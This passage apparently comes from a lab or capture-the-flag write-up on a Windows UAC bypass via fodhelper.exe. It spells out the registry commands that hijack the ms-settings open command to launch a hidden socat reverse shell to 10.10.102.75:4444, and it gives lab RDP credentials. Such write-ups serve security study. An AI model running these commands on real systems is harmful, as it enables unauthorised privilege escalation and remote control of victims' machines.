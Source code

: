 ```
		C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
		C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.10.102.75:4444 EXEC:cmd.exe,pipes"
		
		C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
		The operation completed successfully.
		
		C:\> reg add %REG_KEY% /d %CMD% /f
		The operation completed successfully.
```

**Note**: Changing the Registry key and values `requires` local administrative privileges in which remote connection from user `noob` don't have even if it is a member of the Administrators group. This requires RDP session login.


<u>Preparation</u>:

- Setup the text file to be copied online:

![](/assets/img/Pasted image 20230521185626.png)

- Setup the site to download/copy this from:

![](/assets/img/Pasted image 20230521185647.png)


##### RDP Session using credentials `noob:password`

- Logging in:

![](/assets/img/Pasted image 20230521185008.png)

Note that doing this logs out the user 'noob' on their session so we want to modify the registry value and execute fodhelper.exe quickly.

- Checking the commands to execute to modify the Registry `fodhelper.exe` use when it gets executed:

![](/assets/img/Pasted image 20230521190011.png)


- Execution:

![](/assets/img/Pasted image 20230521190059.png)

<u>Before the execution of these commands</u>:

![](/assets/img/Pasted image 20230119224404.png)


<u>After the execution of the commands</u>:

- "`DelegateExecute`" is empty and the "`Default`" has the value of `socat` to connect back to the reverse shell listener.
![](/assets/img/Pasted image 20230119232554.png)
